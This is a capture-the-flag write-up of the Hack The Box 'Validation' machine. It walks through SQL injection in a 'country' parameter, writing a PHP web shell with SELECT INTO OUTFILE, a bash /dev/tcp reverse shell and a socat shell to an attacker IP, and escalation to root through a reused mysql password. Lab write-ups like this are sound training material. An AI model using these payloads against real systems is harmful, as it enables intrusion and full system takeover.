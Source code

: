 ```yaml
---
layout: post
title: Hack The Box - Validation Writeup
date: 2024-06-03 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![validationBadge.png](/assets/img/Validation/validationBadge.png)

## Summary

While testing functionality of application on port 80 I found out that `country` parameter is vulnerable to SQL Injection. I was able to determine specific number of columns in the table using `ORDER` query. With this knowledge I was able to write files on web server via `SELECT INTO_OUTFILE`. I created `webshell.php` in the apache `webroot` and used URL encoded bash payload to get reverse shell on system. While enumerating system as user `www-data` I stumbled upon interesting file `/var/www/html/config.php`. File contains credentials for `mysql` , so I tried to reuse this password and log in as user `root`. This proved to be valid password and I got access as `root`.

___
## Reconnaissance

### Nmap

```
PORT     STATE    SERVICE        VERSION
22/tcp   open     ssh            OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8f5efd2d3f98dadc6cf24859426ef7a (RSA)
|   256 463d6bcba819eb6ad06886948673e172 (ECDSA)
|_  256 7032d7e377c14acf472adee5087af87a (ED25519)
80/tcp   open     http           Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open     http           nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp
5001/tcp filtered commplex-link
5002/tcp filtered rfe
5003/tcp filtered filemaker
5004/tcp filtered avt-profile-1
5005/tcp filtered avt-profile-2
5006/tcp filtered wsm-server
5007/tcp filtered wsm-server-ssl
5008/tcp filtered synapsis-edge
8080/tcp open     http           nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration


| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.116 | **TCP**: 22, 80, 4566, 8080 |


#### Port 80

![80.png](/assets/img/Validation/80.png)


![dirsearch.png](/assets/img/Validation/dirsearch.png)

While testing functionality of application I placed single quote in the `country` parameter which resulted in error. This indicates that application could be vulnerable to SQL Injection and requires further testing. 

![sqlTest.png](/assets/img/Validation/sqlTest.png)

![sqlTestError.png](/assets/img/Validation/sqlTestError.png)

___
## Initial Foothold

### UNION-based SQL Injection

I tried to insert statement that orders results by a specific column meaning it will fail whenever the selected column does not exist. This way I was able to determine number of columns in the table. 

```
' ORDER BY 2-- //
```

This payload resulted in error which means that table does not have 2 columns. 


![orderError.png](/assets/img/Validation/orderError.png)

```
' ORDER BY 1-- //
```

![orderSuccess.png](/assets/img/Validation/orderSuccess.png)

Missing error message means that our statement was valid and we determined that table has one column. Now that we know number of columns in table we can try to write files on web server via `SELECT INTO_OUTFILE` statement. I will try to write `webshell.php` to `webroot` directory 

```
' UNION SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "/var/www/html/webshell.php" -- //
```

![burpWebshell.png](/assets/img/Validation/burpWebshell.png)

Submitting the payload we see error message which can be attributed to the fact that the query does not return any results, so we can continue in exploitation. To trigger the query we need to load the page by accessing it. To do this you can right click on the response in `Burp` choose `Show response in browser`, copy URL and paste it to your browser. 

![burpErrorAccess.png](/assets/img/Validation/burpErrorAccess.png)

Now we can access our `webshell`.

![webshell.png](/assets/img/Validation/webshell.png)

To get reverse shell on system I used URL encoded bash reverse shell. 

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.38/7003 0>&1"
```

![burpDecoder.png](/assets/img/Validation/burpDecoder.png)

After submitting URL encoded payload to `webshell` I received reverse shell connection.

![webshellPayload.png](/assets/img/Validation/webshellPayload.png)

![reverseShell.png](/assets/img/Validation/reverseShell.png)

### User.txt

![userFlag.png](/assets/img/Validation/userFlag.png)

### Upgrading TTY using socat

On victim machine:
```
/usr/bin/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.38:4444
```

On kali:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

![upgradeTTY.png](/assets/img/Validation/upgradeTTY.png)

_____
## Privilege Escalation

### System Enumeration

![config.png](/assets/img/Validation/config.png)

```
uhc : uhc-9qual-global-pw
```

#### Linpeas

![linpeas1.png](/assets/img/Validation/linpeas1.png)

![linpeas2.png](/assets/img/Validation/linpeas2.png)

### Logging as root

I was able to log in as root using password found in `config.php`.

```
root : uhc-9qual-global-pw
```

![escalation.png](/assets/img/Validation/escalation.png)

___
## Post Exploitation

### Root.txt

![rootFlag.png](/assets/img/Validation/rootFlag.png)